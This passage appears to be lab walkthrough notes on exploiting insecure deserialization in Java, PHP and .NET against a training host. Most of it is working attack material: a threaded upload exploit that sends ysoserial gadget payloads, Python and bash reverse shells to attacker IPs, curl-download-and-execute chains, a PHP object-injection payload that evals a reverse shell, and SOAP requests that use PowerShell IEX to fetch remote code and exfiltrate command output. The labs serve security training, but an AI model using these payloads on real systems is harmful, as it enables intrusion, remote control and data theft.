To sequentially run them and then use "read file" immediately, we need to implement the concept of threading. If we simply run the two functions above one after the other, readfile() will wait for upload() until it finishes. By this time, the target file will be gone.

Threading will simply start upload() in another thread which will allow readfile() to run without waiting for the response of upload().

```python
for payload in payloads:
    x=threading.Thread(target=upload, args=(payload,))
    x.start()
    readfile()
    time.sleep(2)
```


Before running the exploit check if you have started a listener to detect pings - e.g. Wireshark or tcpdump.

```bash
tcpdump -i eth1 icmp
```


```python
import requests
import time
import threading
def readfile(filename):
    url = "http://demo.ine.local/upload/index.php?sent=OK"
    r = requests.get(url)
    print("[+] Used filename: " + filename)
    print(r.text)
    print("\n")
def upload(filename):
    url = "http://demo.ine.local/upload/upload.php"
    files ={'uploaded_file': open(filename, 'rb')}
    r = requests.post(url, files=files)
payloads = [
'CommonsCollections2'
]
for payload in payloads:
    x=threading.Thread(target=upload, args=(payload,))
    x.start()
    readfile(payload)
    time.sleep(2)
```


 Execute the exploit code by the following command.

```
python exploit.py
```


The result is code execution!


After a short, while seeing different responses for each payload, we can see that when CommonsCollections2 is used, pings start to appear.

**Obtain a reverse shell**

To establish a reverse shell we will need to issue a command or series of commands. Keep in mind that in Java deserialization, you can use spaces in the commands, but you cannot use spaces in the arguments of the commands.

**Step 1:** Create a shell script to get the reverse shell from the target machine.

Save this code as **rev.py** in the root directory.

**Code:**

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.46.20.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


**Step 2:** Then let's host the above using Python's SimpleHTTPServer module in the directory where rev is present.

**Command:**

```bash
python -m SimpleHTTServer 8443
```

**Step 3:** In another terminal window, start a Netcat listener.

**Command:**

```
nc -lvp 443
```

**Step 4:** Finally, the exploit is changed to generate the respective payloads one after the other.

- Download the reverse shell

- Make it executable

- Start the shell

  ```python
  payload = 'CommonsCollections2'
  commands = [
  '"curl http://192.91.247.2:8443/rev.py -O rev.py"',
  '"chmod +x rev.py"',
  '"./rev.py"'
  ]
  for command in commands:
      os.system("java -jar /root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar " + payload + " " + command + " > " + payload)
      x=threading.Thread(target=upload, args=(payload,))
      x.start()
      readfile(payload)
      time.sleep(2)
  ```

Below you can find the full exploit code.

Save this as exploit.py and execute the file.

**Command:**

```
python exploit.py
```


**The full exploit**

```python
import requests
import time
import threading
import os
def readfile(filename):
    url = "http://demo.ine.local/upload/index.php?sent=OK"
    r = requests.get(url)
    print("[+] Used filename: " + filename)
    print(r.text)
    print("\n")
def upload(filename):
    url = "http://demo.ine.local/upload/upload.php"
    files ={'uploaded_file': open(filename, 'rb')}
    r = requests.post(url, files=files)
payload = 'CommonsCollections2'
commands = [
'"curl http://192.91.247.2:8443/rev.py -O rev.py"',
'"chmod +x rev.py"',
'"./rev.py"'
]
for command in commands:
    os.system("java -jar /root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar " + payload + " " + command + " > " + payload)
    x=threading.Thread(target=upload, args=(payload,))
    x.start()
    readfile(payload)
    time.sleep(2) 
```


----

#### Lab2: Java Insecure Deserialization II

Copy and paste the python exploit code and save it as exploit.py.

**Source:** https://github.com/foxglovesec/JavaUnserializeExploits/blob/master/jenkins.py


Create a reverse shell payload.

Copy and paste the command into a file and save it as **shell.sh**.

```
bash -i >& /dev/tcp/192.24.161.2/9999 0>&1
```


Setup a Netcat listener that will be listening for connections on port 9999.

```
nc -lvp 9999
```


Host the shell.sh file using a Python SimpleHTTPServer. In the same directory where the file is present, execute the below.

```
python -m SimpleHTTPServer 8888
```

 

Generate a payload with a **ysoserial** file and make the target machine download the shell.sh file from attacker machine.

```
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "curl http://192.24.161.2:8888/shell.sh -o /tmp/shell.sh" > /root/payload.out
```


 Execute the python exploit code.

```
python exploit.py 192.24.161.3 8080 /root/payload.out
```

This result from the python server shows that shell.sh file is downloaded by the target machine, and the payload is working as expected.


We have to run the python exploit two more times to execute the bash script in the target machine.

Generate a payload again for making the downloaded shell.sh file executable.

```
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "chmod +x /tmp/shell.sh" > /root/payload.out
```


Execute the python code again to send the payload for making shell.sh file executable.

```
python exploit.py 192.24.161.3 8080 /root/payload.out
```


Generate a payload for executing the downloaded shell.sh file again.

```
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "/bin/bash /tmp/shell.sh" > /root/payload.out
```


Execute the python code again to send the payload to the target machine for executing shell.sh file.

```
python exploit.py 192.24.161.3 8080 /root/payload.out
```

Open the terminal where the Netcat was listening. The shell should arrive on the Netcat listener.

Check the id by the following command.

----

#### Lab3: PHP Insecure Deserialization


```php
<?php
class PHPObjectInjection{
    public $inject;
    function __construct(){

    }

    function __wakeup(){
        if(isset($this->inject)){
            eval($this->inject);
        }
    }
}

$obj = new PHPObjectInjection();


$obj->inject = "system('/bin/bash -c \'bash -i >& /dev/tcp/192.151.24.2/4242 0>&1\'');";
print_r(serialize($obj));

```

```php
O:18:"PHPObjectInjection":1:{s:6:"inject";s:68:"system('/bin/bash -c \'sh -i >& /dev/tcp/192.151.24.2/4242 0>&1\'');";}
```

because the serialized payload contains characters like `/` and `&` which are treated specially by the web browser and the server, the payload will not work.

To avoid that, we will encode the serialized payload in URL encode.


----

### Lab4: .NET Insecure Deserialization

```
demo.ine.local   10.4.23.128

my: 10.10.39.2
$c=whoami;curl http://10.10.39.2:445/$c
powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.39.2:445/payload.txt')"

ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c [command]" -o raw


ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c ping 10.10.39.2" -o raw

ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "powershell -exec Bypass -C \"IEX (New-Object Net.WebClient).DownloadString('http://10.10.39.2:445/payload.txt')\"" -o raw
```


The .NET serialization protocol in this case does not verify the length of the command string, it will thus be possible to interfere with it after generating the payload. The payload is then copied to Burp with the following changes:

- As said before, Soap Body tags should be removed
- In order to have a valid soap message, a dummy SOAPAction header is required. This is related to SOAP and not related to this specific lab
- The content type should be text/xml like in every SOAP request
- If you are receiving an error stating "Requested service was not found", you might also need to clear some whitespaces / newlines


```xml
<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<a1:TextFormattingRunProperties id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
<ForegroundBrush id="ref-3">&#60;ResourceDictionary
  xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
  xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;
  xmlns:System=&#34;clr-namespace:System;assembly=mscorlib&#34;
  xmlns:Diag=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&#62;
     &#60;ObjectDataProvider x:Key=&#34;&#34; ObjectType = &#34;{ x:Type Diag:Process}&#34; MethodName = &#34;Start&#34; &#62;
     &#60;ObjectDataProvider.MethodParameters&#62;
        &#60;System:String&#62;cmd&#60;/System:String&#62;
        &#60;System:String&#62;&#34;/c ping 10.10.27.2&#34; &#60;/System:String&#62;
     &#60;/ObjectDataProvider.MethodParameters&#62;
    &#60;/ObjectDataProvider&#62;
&#60;/ResourceDictionary&#62;</ForegroundBrush>
</a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>
```

Before sending the above request, use the following command to listen for ICMP requests/replies:

```bash
tcpdump -i any icmp
```


Request:

```xml
POST /VulnerableEndpoint.rem HTTP/1.1
Host: demo.ine.local:1234
SOAPAction: something
Content-type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://demo.ine.local/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 1478

<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<a1:TextFormattingRunProperties id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
<ForegroundBrush id="ref-3">&#60;ResourceDictionary
  xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
  xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;
  xmlns:System=&#34;clr-namespace:System;assembly=mscorlib&#34;
  xmlns:Diag=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&#62;
     &#60;ObjectDataProvider x:Key=&#34;&#34; ObjectType = &#34;{ x:Type Diag:Process}&#34; MethodName = &#34;Start&#34; &#62;
     &#60;ObjectDataProvider.MethodParameters&#62;
        &#60;System:String&#62;cmd&#60;/System:String&#62;
        &#60;System:String&#62;&#34;/c ping 10.10.27.2&#34; &#60;/System:String&#62;
     &#60;/ObjectDataProvider.MethodParameters&#62;
    &#60;/ObjectDataProvider&#62;
&#60;/ResourceDictionary&#62;</ForegroundBrush>
</a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>
```


**Get command output using an out-of-band channel**

There are many methods to achieve that goal. We will do the task using PowerShell. First, we will create the following snippet and then host it using Python's SimpleHTTPServer module.

```cmd
$c=whoami;curl http://10.10.27.2:445/$c
```

```bash
python3 -m http.server 445
```

And finally, the following command is injected into the serialized payload:

```cmd
powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.27.2:445/payload.txt')"
```


The request for out-of-band data exfiltration via command execution is:

```xml
POST /VulnerableEndpoint.rem HTTP/1.1
Host: demo.ine.local:1234
SOAPAction: something
Content-type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://demo.ine.local/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 1478

<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<a1:TextFormattingRunProperties id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
<ForegroundBrush id="ref-3">&#60;ResourceDictionary
  xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
  xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;
  xmlns:System=&#34;clr-namespace:System;assembly=mscorlib&#34;
  xmlns:Diag=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&#62;
     &#60;ObjectDataProvider x:Key=&#34;&#34; ObjectType = &#34;{ x:Type Diag:Process}&#34; MethodName = &#34;Start&#34; &#62;
     &#60;ObjectDataProvider.MethodParameters&#62;
        &#60;System:String&#62;cmd&#60;/System:String&#62;
        &#60;System:String&#62;&#34;/c &#34;powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.27.2:445/payload.txt')"&#34; &#60;/System:String&#62;
     &#60;/ObjectDataProvider.MethodParameters&#62;
    &#60;/ObjectDataProvider&#62;
&#60;/ResourceDictionary&#62;</ForegroundBrush>
</a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>
```

We can see the output of the "whoami" command being transmitted in the HTTP GET parameter. This is because PowerShell fetched the remote resource and then immediately executed it using the IEX command. Note that we haven't even touched the filesystem!


